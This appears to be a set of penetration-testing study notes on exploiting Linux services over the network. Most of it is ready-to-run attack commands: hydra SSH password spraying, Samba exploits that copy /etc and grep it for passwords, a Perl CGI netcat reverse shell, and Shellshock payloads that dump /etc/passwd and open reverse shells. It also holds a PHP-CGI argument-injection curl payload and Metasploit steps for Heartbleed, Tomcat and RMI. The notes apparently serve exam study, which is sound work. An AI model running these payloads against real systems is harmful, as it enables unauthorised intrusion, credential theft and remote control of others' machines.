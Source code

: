 # Linux Exploitation over the Network

## Password Spray Attack

[Reverse Brute Force Attack](https://en.wikipedia.org/wiki/Brute-force_attack#Reverse_brute-force_attack)  
[Statistcally Likely Usernames](https://github.com/insidetrust/statistically-likely-usernames)  
[The Harvester](https://github.com/laramies/theHarvester)  
[smtp-user-enum](http://pentestmonkey.net/tools/user-enumeration/smtp-user-enum)  
[smtp-enum](https://www.rapid7.com/db/modules/auxiliary/scanner/smtp/smtp_enum)

`use auxiliary/scanner/smtp/smtp_enum`  
`set RHOSTS <<ip address>`  
`set USER_FILE users.txt`  
`run`

Then get valid_user.txt.

Then we will try to brute force 2 very common passwords.

`nmap -sT <ip address> --open --max-retries 1 -n`  
`hydra -L users.txt -P passwords.txt ssh://<ip address>`  
`hydra -l david -p Spring2018 -M ssh_servers.txt ssh`  
also can use smb_login from metasploit module.

also owa_login module from metasploiy module.

* * *

* * *

## Exploiting Samba

`nmap --script smb-os-discovery -p445 <ip address>`  
[searchsploit](https://www.exploit-db.com/searchsploit), [exloit-db.com](https://www.exploit-db.com/)

`searchsploit samba 3.0.20`

- *CVE-2007-2447*  
    `use exploit/multi/samba/usermap_script`  
    After exploit we will get a shell.  
    `python -c 'import pty; pty.spawn("/bin/sh")'`
- *Samba Symlink Directory Traversal*  
    Set widelinks in smb.conf to value yes.  
    `smbmap -H <ip address>`  
    Then use auxilary module samba symlink directory tarversal.  
    After running it we can seet rootfs symlink.  
    `smbclient \\\\<ip address>\\tmp -N`  
    change into rootfs directory and upload and download files using "get" and "put"  
    `cat passwd | less`  
    Another useful command is, `cd etc` and `tar c ../tmp/all_files.tar *`  
    Change to tmp folder and `ls -als all files.tar`  
    We can extract and enumerate:  
    `tar xf /tmp/all_files.tar`  
    `cd /tmp/rootfs/tmp/rootfs/etc/`  
    `grep -r "password" * 2>&1 /dev/null`
- *Writabe Samba Share to Remote Command Execution via Perl Reverse Shell*  
    `nmap --script smb-os-discovery <ip address> -p445`  
    `smbmap -H <ip address>` to get if any share has write access.  
    `smbclient \\\\<ip address>\\www -N`  
    We can then check perl command and start uploading our own script perl file.  
    `nmap -sT <ip address> --max-retries 1 -n --open`  
    We can upload [perl-reverse-shell.pl](http://perl-reverse-shell.pl) file to the directory using "put" and access through http.  
    Then we can get a reverse shell netcat listener.  
    `nc -nvlp 1234`
    Alternatively,
```perl
#!/usr/bin/perl

print "Content-type: text/html\n\n";
system("nc <our ip address> 1234 -e /bin/sh");
```

***
***

## Exploiting Shellshock
[shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) or bashdoor
It affected CGI programs in webservers.
- [CVE-vulerabilities](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#Initial_report_(CVE-2014-6271))

To check shellshock vunerability:
`env x='() {:;}; echo vulnerable' bash -c "echo this is a test"` this should print vulnerable.
`User-Agent: () {:;} ping -c 5 -p unique_string attacker.machine` this will confirm a system is vulnerablet to attacker machine.

`dirsearch.py -u http://192.168.1.3/ -e cgi -r` we will check for .cgi extension.
After finding extension file, `nmap --script-args uri=/cgi-bin/login.cgi <ip address> -p 80` for any shellshock exploitable vulnerabilities.

`wget -U "() {foo;}; echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd" http://<ip address>/cgi-bin/login.cgi && cat login.cgi` for downloading files and viewing.

`nc -nvlp 1234` and for getting shell:
`wget-U "() {foo;}echo; /bin/nc <our ip address> 1234 -e /bin/sh" http://<ip address>/cgi-bin/login.cgi`
<br>
`curl -i -s -X 'POST' --data-binary "<?php system(\"nc <our ip address> 1234 -e /bin/sh\"); die; ?>" "http://<ip address>/cgi-bin/php5?%2dd+allow_url_include%3don+%2dd+safe_mode%3doff+%2dd+suhosin%2esimulation%3don+%2dd+disable_functions%3d%22%22+%2dd+open_baseddir%3dnone+%2dd+auto_prepend_file%3dphp%3a%2f%2finput+%2dd+cgi%2eforce_redirect%3d0+%2dd+cgi%2eredirect_status_env%3d0+%2dn"`

***
***

## Exploiting Heartbleed
[Hearbleed](https://heartbleed.com/)
`nmap --script ssl-heartbleed <ip address>` for checking if its vulnerable.

If its vulnerable we can use openssl_heartbleed module to dump encrypted memory.
also make sure `set action DUMP` We should run this module multiple times to get different results.

***
***

## Exploiting Java RMI Registry
[Java RMI](https://en.wikipedia.org/wiki/Java_remote_method_invocation), [Distributed Garbage Collection](https://web.archive.org/web/20190127220546/http:/java.sys-con.com/node/35865)

`nmap -sT <ip address> -p 1099 -sV` scan all ports sometimes can be found other ports too.
Then we can use java_rmi_server exploit from metasploit.

***
***

## Exploiting Java Deserialization
[Deserilization of untrusted data](https://owasp.org/www-community/vulnerabilities/Deserialization_of_untrusted_data)

More Info: [https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/)
How to create small vulnerable environment: [https://web.archive.org/web/20160513025134/http:/www.zonksec.com/blog/hands-on-with-weblogic-serialization-vulnerability](https://web.archive.org/web/20160513025134/http:/www.zonksec.com/blog/hands-on-with-weblogic-serialization-vulnerability)

***
***

## Exploiting Tomcat
[Apache Tomcat](https://tomcat.apache.org/)

Check for default passwords if we are lucky we will be able to access the manger login page.

tomcat_mgr_login from metasploit module can be used to check for default credentials.

After login we can upload .war file. Then can get reverse shell. Please refer eJPT section for more details.

***
***

## Exploiting Drb RMI 

`nmap -sT <ip address> -p8787`
`nmap -sT -sV <ip address> -p8787`

Then search for drb in metasploit module. And use exploit to get shell.
***
***